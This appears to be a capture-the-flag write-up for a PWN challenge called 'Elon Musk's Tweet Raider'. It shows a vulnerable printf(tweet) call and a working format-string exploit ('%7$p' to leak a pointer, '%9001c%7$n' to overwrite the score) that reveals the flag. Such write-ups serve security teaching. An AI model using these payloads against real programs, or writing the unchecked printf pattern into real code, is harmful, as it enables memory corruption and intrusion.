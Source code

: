 # Elon Musk's Tweet Raider

## Category
PWN
## Points:
100
## Description:
Dave bought a self driving starship! Ever since he has been strangely enthralled with Mlon Eusk's Tweets. Help Dave get a response from Mlon himself
## Creator:
nsnc

## Solve

This program is vulnerable to a format string attack:
```c
printf("Your tweet:\n");
printf(tweet);

calculateScore(tweet, score);
printf("Your score: %d\n", *score);
if(*score > 9000) {
    printf("Your score is over 9000!\n");
    printf("%s\n", readFile("./flag.txt"));
}
```

Since a pointer to `score` is on the stack, an attacker can use `%p` to leak it, or `%n` to write to it.

After testing calculating offsets, an input of `%7$p` will print the heap address of the score integer.
```
Tweet: %7$p
Your tweet:
0x55cea2fdd2a0
Your score: 0
```

The format specifier `%n` will write as many characters as were printed to the memory pointed to by the coresponding argument. `%Nc` will print N spaces as padding. We can use this to write `9001` to the score variable using the format string: `%9001c%7$n`.

```
Tweet: %9001c%7$n
<snip>
LOTS OF SPACES
<snip>
Your score: 9001
Your score is over 9000!
pctf{Wh4t's_4ft3r_MAARRRZ?}
